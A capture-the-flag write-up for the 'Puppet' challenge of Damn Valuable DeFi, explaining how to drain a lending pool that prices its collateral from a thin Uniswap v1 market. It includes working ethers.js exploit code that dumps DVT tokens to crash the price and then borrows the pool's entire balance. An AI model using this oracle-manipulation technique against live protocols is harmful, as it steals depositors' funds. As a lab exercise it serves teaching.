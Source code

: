 # CHALLENGE #8 - Puppet
There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool. 

## Manipulation of uniswap price
In order to be able to drain the lending pool contract we have to manipulate the amount of eth balance in the uniswap contract so we can borrow a big amount of DVT Tokens
with a very small deposit required.      
We can do that by exchanging a bunch of DVT tokens for 1 eth in order to make the eth balance as close to 0 as possible, so we can drain the lending pool contract.      

## Exploit
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).approve(
            this.uniswapExchange.address,
            ethers.utils.parseEther('1000'),
        );
		await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(
            ethers.utils.parseEther('999'),
			ethers.utils.parseEther('1'),
			(await ethers.provider.getBlock('latest')).timestamp * 2,
		);
		await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {value: ethers.utils.parseEther('25')});
    });
```
